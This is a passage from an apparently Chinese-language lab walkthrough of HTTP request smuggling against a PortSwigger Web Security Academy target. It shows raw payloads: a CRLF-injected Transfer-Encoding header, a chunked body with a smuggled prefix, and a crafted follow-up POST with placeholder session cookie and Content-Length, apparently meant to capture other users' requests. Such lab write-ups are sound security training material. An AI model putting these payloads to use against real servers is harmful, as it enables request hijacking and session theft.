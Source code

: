 ```plain
bar\r\n
Transfer-Encoding: chunked
```

[![](assets/1705287960-63ece9459e3555532ff6243a312f57f0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104258-21a721b8-b02b-1.png)  
Body部分如下所示：

```plain
0

SMUGGLED
```

随后我们可以看到发送的每第二个请求会收到一个404响应，由此可以确认我们已经让后端将后续请求附加到走私的前缀上

[![](assets/1705287960-1000b26bb162f9a635d70744209bc334.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104325-319f4c30-b02b-1.png)  
随后构造如下请求数据包

```plain
0

POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=YOUR-SESSION-COOKIE
Content-Length: 800

search=x
```
